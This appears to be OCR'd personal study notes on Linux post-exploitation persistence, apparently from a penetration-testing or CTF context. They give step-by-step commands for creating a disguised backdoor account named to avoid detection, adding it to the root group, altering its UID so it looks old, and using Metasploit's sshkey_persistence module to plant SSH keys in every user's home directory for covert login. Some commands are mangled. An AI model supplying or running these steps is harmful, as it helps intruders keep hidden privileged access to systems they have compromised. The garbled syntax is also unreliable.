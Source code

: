     - so we will creat a background user and provide it with a default name to avoid detected
    - `useradd -m <name (ftp)> -s /<path (/usr/sbin/nologin)> /bin/bash` && `password ftp <any password>`
    
    > after we creat account we need to provide it with the highes privs , so first make sure the account on the same group with root
    
    - `usermod -aG root ftp`
    - `usermod -u 15 ftp` ⇒ to make the account like is created from past time
    
    > we can used a modules to do that
    
    - `search platform:linux persistence` && `use post/linux/manage/sshkey_persistence`
        
        - `set session <session number>`
        - `set creatsshfolder true` && `run`
        - ==see the privit key text file and copy it==
        - vim ssh_key ⇒ and peast it && chmod 0400 ssh_key
        - `ssh -i <file that’s contain the privite key > <username>@<ip>` ⇒ to login in any user on the system
        
        > ==that’s the perfect one becuase this will creat a public and privet ssh key and added it to all home dir of all users .==